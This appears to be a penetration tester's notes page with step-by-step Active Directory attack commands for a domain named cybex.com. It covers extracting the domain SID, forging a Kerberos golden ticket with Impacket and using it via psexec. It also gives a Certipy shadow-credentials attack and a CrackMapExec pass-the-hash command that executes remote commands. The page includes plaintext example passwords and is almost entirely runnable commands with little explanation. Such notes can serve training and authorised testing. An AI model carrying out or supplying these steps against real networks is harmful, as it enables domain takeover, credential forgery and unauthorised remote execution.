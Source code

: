 {% hint style="info" %}
Copy the NT hash for the user "krbtgt"

Copy the Computer Name
{% endhint %}

### Extract the Domain SID

```
sudo python3 lookupsid.py cybex.com/aadama31:BlueMarble22@<domain ip>
```

### Forge the Golden-Ticket

```
sudo python3 ticket.py -nthash <krbtgt hash> -domain-sid '<domain sid>' -domain cybex.com <username to create a ticket for>
```

### Use the Golden-Ticket

```
export KRB5CCNAME=/usr/share/doc/python3-impacket/examples/akatt42.ccache
```

```
sudo python3 psexec.py cybex.com/akatt42@<computer name> -target-ip <domain ip> -dc-ip <domain ip> -no-pass -k
```

{% hint style="info" %}
Note: "akatt42" is the username for which we have create the golden ticket previously.
{% endhint %}



## Running a shadow attack

{% embed url="https://lnkd.in/gjP6a6p5" %}

{% embed url="https://lnkd.in/ghy45ycZ" %}

### Certipy Tool

{% embed url="https://github.com/ly4k/Certipy" %}

```
sudo pip3 install certipy-ad
```

```
certipy shadow auto -u sspade@cybex.com -p Scorpion5 -dc-ip 192.168.1.5 -account adamant
```

### Pass The Hash Attack

```
crackmapexec winrm <domain ip> -d cybex -u "adamant" -H <NT hash> -x ";hostname;whoami"
```
